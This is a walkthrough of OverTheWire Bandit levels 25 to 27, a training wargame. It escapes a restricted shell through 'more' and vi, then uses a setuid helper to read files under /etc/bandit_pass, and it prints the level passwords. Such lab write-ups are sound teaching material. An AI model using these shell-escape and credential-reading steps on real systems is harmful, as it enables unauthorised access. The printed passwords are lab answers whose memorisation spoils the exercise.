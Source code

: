 
## Bandit Level 25 → Level 26

**Level Goal**

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

**Helpful commands**

ssh, cat, more, vi, ls, id, pwd

```bash
cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
cat /usr/bin/showtext
#!/bin/sh
export TERM=linux
more ~/text.txt
exit 0

ls
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
# Reduce the size of the terminal to enable 'more' to paging through text one screenful at a time.
# Max height = 6

# Press 'v' to start vi
# Then, in vi type ':e /etc/bandit_pass/bandit26'

5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```

---

## Bandit Level 26 → Level 27

**Level Goal**

Good job getting a shell! Now hurry and grab the password for bandit27!

**Helpful commands**

ls

```bash
:set shell=/bin/bash
:!ls -la

total 36
drwxr-xr-x  3 root     root     4096 May  7  2020 .
drwxr-xr-x 41 root     root     4096 May  7  2020 ..
-rwsr-x---  1 bandit27 bandit26 7296 May  7  2020 bandit27-do

:! ./bandit27-do cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
```
